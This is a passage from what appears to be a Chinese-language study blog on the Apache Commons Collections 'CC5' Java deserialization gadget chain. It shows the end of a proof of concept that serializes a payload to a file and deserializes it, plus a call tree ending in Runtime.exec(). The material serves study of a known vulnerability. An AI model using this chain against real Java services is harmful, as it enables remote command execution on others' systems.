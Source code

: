 ```java
            val.set(poc,tiedmap);
            return poc;
        }
    public static void main(String[] args) throws Exception {
        payload2File(generatePayload(),"obj");
        payloadTest("obj");
    }
    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```

## 利用链

```
  ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

通过利用链其实可以看出来,CC5的后半段利用链和CC1的lazymap那条链后面段是一样的,都是调用LazyMap的get方法触发命令,这里我们主要看前面是如何调用到LazyMap.get()的;

## TiedMapEntry 

![image-20210714094609515](CC链学习-中/image-20210714094609515.png)
